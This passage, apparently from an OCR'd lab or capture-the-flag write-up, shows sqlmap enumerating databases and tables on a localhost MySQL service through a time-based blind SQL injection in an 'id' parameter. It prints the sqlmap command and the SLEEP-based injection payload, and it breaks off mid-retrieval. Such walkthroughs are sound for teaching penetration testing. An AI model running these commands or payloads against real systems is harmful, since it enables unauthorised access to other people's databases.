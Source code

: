 ```jsx
occer_db
available databases [5]:                                                                                                           
[*] information_schema                                                                                                             
[*] mysql                                                                                                                          
[*] performance_schema                                                                                                             
[*] soccer_db
[*] sys

[17:31:05] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/localhost'

[*] ending @ 17:31:05 /2023-01-20/
```

Getting a list of tables in the database:

```jsx
sqlmap -u "http://localhost:8081/?id=1" --tables -D soccer_db
        ___
       __H__                                                                                                                       
 ___ ___[)]_____ ___ ___  {1.7#stable}                                                                                             
|_ -| . ["]     | .'| . |                                                                                                          
|___|_  [,]_|_|_|__,|  _|                                                                                                          
      |_|V...       |_|   https://sqlmap.org                                                                                       

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 17:33:13 /2023-01-20/

[17:33:13] [INFO] resuming back-end DBMS 'mysql' 
[17:33:13] [INFO] testing connection to the target URL
[17:33:13] [WARNING] turning off pre-connect mechanism because of incompatible server ('SimpleHTTP/0.6 Python/3.10.9')
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 4321 FROM (SELECT(SLEEP(5)))IZXb)
---
[17:33:13] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
[17:33:13] [INFO] fetching tables for database: 'soccer_db'
[17:33:13] [INFO] fetching number of tables for database 'soccer_db'
[17:33:13] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)    
[17:33:25] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] y
1
[17:33:36] [INFO] retrieved: 
[17:33:47] [INFO] adjusting time delay to 1 second due to good response times
```